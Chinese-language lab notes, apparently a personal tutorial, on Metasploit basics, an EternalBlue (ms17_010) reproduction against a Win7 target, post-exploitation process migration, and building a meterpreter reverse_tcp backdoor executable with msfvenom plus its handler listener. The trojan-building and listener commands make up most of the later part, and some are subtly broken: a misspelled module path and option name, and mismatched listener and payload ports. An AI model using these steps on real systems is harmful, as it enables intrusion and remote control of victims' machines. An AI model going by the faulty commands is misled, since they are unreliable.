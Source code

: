 # 1.基本使用

## 使用方式

### 使用模块 - user [module name]

不知道模块具体名称可以使用`search`搜索

### 配置模块必选项 - set [option_name]

不知道具体选项可以使用`show option`

### 运行模块 - run

## 2.永恒之蓝复现

搜索ms17_010

![image-20241112221025457](Metasploit/image-20241112221025457.png)

要进行使用可以`use [module name]`或者use 前面的序号

使用`show options`查看需要配置的选项

![image-20241112221211481](Metasploit/image-20241112221211481.png)

配置完对应的选项之后run即可，关闭win7靶机的防火墙即可成功

![image-20241112221537960](Metasploit/image-20241112221537960.png)

这里的攻击载荷是`meterpreter`

也可以设置不同的攻击载荷

### 后渗透环节

可以使用help查看当前可以使用的命令

![](Metasploit/image-20241112222608904.png)

靶机使用的不是管理员用户，使用个人用户，但我们得到的权限是管理员用户，想要在个人用户下进行后渗透操作需要进行降权

查看当前的id，将进程注入到用户操作去

![image-20241112222856761](Metasploit/image-20241112222856761.png)

# 2.正篇

## 1.msfvenom生成木马后

windows可执行程序后门

```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.204.149 lport=6688 -f exe -o liao.exe
```

> -p 设置攻击载荷
>
> windows/x64/meterpreter/reverse_tcp 系统/架构/作用/方式 方式一般选择反向TCP连接，让目标连接本机
>
> lhost lport设置监听本地机器的ip和端口
>
> -f format
>
> -o output

使用模块开启监听

```
use exploit/mutil/handler
```

设置pyload

```
set paypload windows/x64/meterpreter/reverse_tcp
```

设置模块必选项 ip 端口

```
set lhost 0.0.0.0
set lport 9999
```

运行模块 

```
run
```

